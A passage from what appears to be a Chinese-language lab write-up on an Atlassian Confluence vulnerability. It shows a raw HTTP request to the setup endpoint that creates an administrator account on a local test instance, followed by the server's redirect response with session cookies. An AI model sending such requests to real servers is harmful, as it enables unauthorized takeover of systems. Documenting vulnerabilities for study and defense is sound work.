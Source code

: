 [![](assets/1699929092-9c844d1405bdae8c2d76f46b617babce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110153704-f19c6f38-7f9b-1.png)

0x02 添加管理员请求包

请求后正常会 302 跳转

```plain
POST /setup/setupadministrator.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
X-Atlassian-Token: no-check

username=vulhub&fullName=vulhub&email=admin%40vulhub.org&password=vulhub&confirm=vulhub&setup-next-button=Next
```

response

```plain
HTTP/1.1 302 
Cache-Control: no-store
Expires: Thu, 01 Jan 1970 00:00:00 GMT
X-Confluence-Request-Time: 1698332831817
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: frame-ancestors 'self'
Set-Cookie: JSESSIONID=1E428B7ED069E414E71DCE1824419A91; Path=/; HttpOnly
Set-Cookie: seraph.confluence=425986%3A2718a7a9244706dd728e51b3df100e9bbc26c242; Max-Age=1209600; Expires=Thu, 09 Nov 2023 15:07:12 GMT; Path=/; HttpOnly
Location: /setup/finishsetup.action
Content-Type: text/html;charset=UTF-8
Content-Language: en-US
```